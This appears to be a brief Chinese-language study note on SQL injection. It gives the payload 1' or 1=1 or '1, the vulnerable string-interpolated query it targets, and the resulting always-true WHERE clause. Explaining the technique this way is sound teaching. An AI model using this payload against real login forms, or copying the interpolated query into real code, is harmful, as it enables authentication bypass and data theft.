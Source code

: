 ```sql
1' or 1=1 or '1
```
# 原理
最朴素的后端实现
```sql
select * from users where username='{$username}'
```
格式化之后变成
```sql
select * from users where
username='1' or 1=1 or '1'
```
`1=1`始终为真

#Web #SQL注入